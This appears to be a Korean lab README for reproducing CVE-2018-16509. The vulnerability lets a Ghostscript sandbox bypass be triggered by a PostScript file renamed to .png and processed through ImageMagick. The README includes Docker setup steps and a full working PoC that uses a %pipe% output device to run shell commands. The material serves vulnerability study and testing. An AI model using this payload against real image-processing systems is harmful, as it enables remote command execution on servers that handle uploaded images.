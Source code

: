 <h1>CVE-2018-16509</h1>

**Contributors**

[정기현](https://github.com/jkh011120)

<br>

<h3>요약</h3>

CVE-2018-16509는 Postscript 및 PDF를 처리하는 Ghostscirpt를 우회하여 사용자가 의도치 않은 행위를 하게 함.
즉. 파일 확장자로 우회하여 공격 시도가 가능함.


<h3>환경 구성 및 실행</h3>

`docker compose up -d` 커맨드를 입력해 테스트 환경 실행 (GhostScript 9.23 및 ImageMagick 7.0.8버전을 사용합니다)



<h3>poc.ps -> poc.png </h3>
Postscript로 코드를 만든 후 확장자 명을 png로 만듦.

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```

<h3>결과</h3>
![](1.png)
<br>
![](2.png)
<br>
![](3.png)
<br>
![](4.png)

<br>
<h3>정리</h3>

